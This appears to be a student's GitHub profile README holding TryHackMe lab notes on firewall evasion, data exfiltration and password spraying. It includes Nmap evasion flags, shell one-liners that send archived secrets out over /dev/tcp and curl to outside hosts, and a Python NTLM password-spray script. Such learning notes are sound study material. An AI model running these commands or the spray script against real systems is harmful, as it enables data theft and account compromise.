 # Azalee

<picture>
 <img alt="Tryhackme" src="https://tryhackme.com/badge/635738">
</picture>

## About me

Hi, I'm Azalee. I am French systems and networks student, who loves cybersecurity !


<details>
<summary>My favorite hobbies ! </summary>


| Rank | hobbies |
|-----:|---------------|
|     1|   Learning cybersecurity            |
|     2|    listening to music            |
|     3|     learning English          |

</details>

# Firewall Evasion 

| Evasion Approach  | Nmap Argument |
| ------------- | ------------- |
| Hide a scan with decoys  | `-D DECOY1_IP1,DECOY_IP2,ME`  |
| Use an HTTP/SOCKS4 proxy to relay connections  | `--proxies PROXY_URL`  |
| Spoof source MAC address | `--spoof-mac MAC_ADDRESS` |
| Spoof source IP address	| `-S IP_ADDRESS` |
| Use a specific source port number |	`-g PORT_NUM or --source-port PORT_NUM` |
| Fragment IP data into 8 bytes |	`-f` |
| Fragment IP data into 16 bytes |	`-ff` |
| Fragment packets with given MTU |	`--mtu VALUE` |
| Specify packet length |	`--data-length NUM` |
| Set IP time-to-live field |	`--ttl VALUE` |
| Send packets with specified IP options |	`--ip-options OPTIONS` |
| Send packets with a wrong TCP/UDP checksum |	`--badsum` |
| Hide a scan with random decoys |	`-D RND,RND,ME` |

# Data Exfiltration

## TCP SOCKET

Make sure the listener is running on the attackerBox.

`tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080`

Let's break down the previous command and explain it:
1. We used the tar command to create an archive file with the zcf arguments of the content of the secret directory.
2. The z is for using gzip to compress the selected folder, the c is for creating a new archive, and the f is for using an archive file.
3. We then passed the created tar file to the base64 command for converting it to base64 representation.
4. Then, we passed the result of the base64 command to create and copy a backup file with the dd command using EBCDIC encoding data.
5. Finally, we redirect the dd command's output to transfer it using the TCP socket on the specified IP and port, which in this case, port 8080.

On the AttackerBox, we need to convert the received data back to its original status. We will be using the dd tool to convert it back. 

`cd /tmp/`
`dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar`

1. We used the dd command to convert the received file to ASCII  representation. We used the task4-creds.data as input to the dd command. 
2. The output of the dd command will be passed to the base64 to decode it using the -d argument.
3. Finally, we save the output in the task4-creds.tar  file.

Next, we need to use the tar command to unarchive the task4-creds.tar file and check the content as follows,

`tar xvf task4-creds.tar`

1. We used the tar command to unarchive the file with the xvf arguments.
2. The x is for extracting the tar file, the v for verbosely listing files, and the f is for using an archive file.

## HTTP TRANSFER

`curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php`

We used the curl command with --data argument to send a POST request via the file parameter. Note that we created an archived file of the secret folder using the tar command. We also converted the output of the tar command into base64 representation.

On the web. server check the tmp directory --> new file but seems broken, to fix : 

`sudo sed -i 's/ /+/g' /tmp/http.bs64`

Using the sed command, we replaced the spaces with + characters to make it a valid base64 string!


`cat /tmp/http.bs64 | base64 -d | tar xvfz -`
`tmp/task6/`
`tmp/task6/creds.txt`

Finally, we decoded the base64 string using the base64 command with -d argument, then we passed the decoded file and unarchived it using the tar command.

# Password Spray 
```
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password: " + password)
    #Reset valid credential counter
    count = 0
    #Iterate through all of the possible usernames
    for user in self.users:
        #Make a request to the website and attempt Windows Authentication
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        #Read status code of response to determine if authentication was successful
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username: " + user)
    print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")
```
`python3 ntlm_passwordspray.py  -u username.txt -f [fqdn] -p [Password] -a http://URL
`
